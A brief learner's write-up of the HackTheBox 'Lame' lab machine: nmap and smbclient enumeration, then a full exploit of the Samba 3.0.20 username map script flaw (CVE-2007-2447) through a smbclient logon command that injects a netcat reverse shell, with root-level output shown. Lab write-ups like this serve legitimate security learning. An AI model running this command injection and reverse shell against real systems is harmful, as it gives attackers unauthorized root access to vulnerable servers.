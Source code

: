 # Lame

It's not a proper writeup since I know what to look for.

I'm only taking some notes while I learn. 


```
sgs@ptbox:~$ nmap -Pn -sV -sC 10.10.10.3

Starting Nmap 7.60 ( https://nmap.org ) at 2020-03-15 16:02 CET
Nmap scan report for 10.10.10.3
Host is up (0.080s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.13
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-03-12T08:07:52-04:00
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.06 seconds
```

I already know FTP and SSH are not vulnerable here

```
sgs@ptbox:~$ searchsploit Samba 3.0.20
-------------------------------- ----------------------------------
 Exploit Title                  |  Path
                                | (/opt/exploitdb/)
-------------------------------- ----------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Use | exploits/unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Ov | exploits/linux/remote/7701.txt
-------------------------------- ----------------------------------
Shellcodes: No Result
Papers: No Result
```

Some googling led me to CVE-2007-2447 and other interesting resources.

 - [CVE-2007-2447 - Samba usermap script](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/) 
 - [HackTheBox - Lame (Without Metasploit)](https://www.youtube.com/watch?v=hYY6Cx4FLDg)
 - [Accessing an SMB Share With Linux Machines](https://www.tldp.org/HOWTO/SMB-HOWTO-8.html)
 - [Samba username map script](https://linxz.co.uk/vulnerabilities/2018/11/14/Samba-username-map-script.html)
```
sgs@ptbox:~$ smbclient -L 10.10.10.3
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\sgs's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

```
sgs@ptbox:~$ smbclient //10.10.10.3/tmp
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\sgs's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```

Open another shell and listen for connections

```
sgs@ptbox:~$ nc -lvp 8080
Listening on [0.0.0.0] (family 0, port 8080)
```

Run the reverse shell

```
smb: \> 
smb: \> logon "./=`nc <MY IP> 8080 -e /bin/sh`"
Password: 
session setup failed: NT_STATUS_LOGON_FAILURE
smb: \> 
```

Got it!

```
Listening on [0.0.0.0] (family 0, port 8080)
Connection from 10.10.10.3 54117 received!

id
uid=0(root) gid=0(root)

ls /root
Desktop
reset_logs.sh
root.txt
vnc.log

cat /root/root.txt
<redacted>

ls /home
ftp
makis
service
user

ls /home/makis
user.txt

cat /home/makis/user.txt
<redacted>
```